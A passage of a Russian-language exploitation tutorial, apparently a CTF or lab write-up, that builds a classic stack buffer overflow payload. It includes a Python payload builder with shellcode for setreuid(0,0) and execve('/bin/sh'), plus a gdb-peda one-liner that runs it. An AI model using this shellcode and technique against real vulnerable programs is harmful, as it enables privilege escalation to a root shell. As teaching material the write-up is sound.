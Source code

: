 Мой пейлоад для данной ситуации принял вид `Адрес_возврата + Мусор + ESP`. Значение ESP было уменьшено ассемблерным кодом на 4, помещено в регистр ECX, откуда, в свою очередь, был восстановлен оригинальный стек, вершина которого указывала на начало «мусорной» строки — `0xd34dc0d3`.

Таким образом, разметить шелл-код я должен по тому же адресу, который содержит сохраненное значение регистра ESP. Если учесть еще два 32-байтных NOP-среза, в которые я облачу полезную нагрузку, и тот факт, что «прыгнуть» я собираюсь ровно на середину первой NOP-последовательности (`0xbfffedd4 = 0xbfffedc4 + 16`), то конечный вид эксплоита будет выглядеть так.

```python
ret_addr  = '\xbf\xff\xed\xd4'[::-1]
junk      = 'A' * 31
nop_sled  = '\x90' * 32
saved_esp = '\xbf\xff\xed\xc4'[::-1]

# setreuid(0,0) + execve("/bin/sh", ["/bin/sh", NULL])
shellcode = '\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80'

payload = ret_addr + nop_sled + shellcode + nop_sled + junk + saved_esp
```

Или в виде «однострочника».

```
gdb-peda$ r `python -c 'print "\xbf\xff\xed\xd4"[::-1] + "\x90"*32 + "\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "\x90"*32 + "A"*31 + "\xbf\xff\xed\xc4"[::-1]'`
```

[![gdb-peda-boundary-4-dash-id.png]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-boundary-4-dash-id.png" | relative_url }})]({{ "/img/pwn-kingdom/classic-stack-overflow/gdb-peda-boundary-4-dash-id.png" | relative_url }})
{: .center-image}

Победа, игра окончена.


[//]: # (2019-09-20)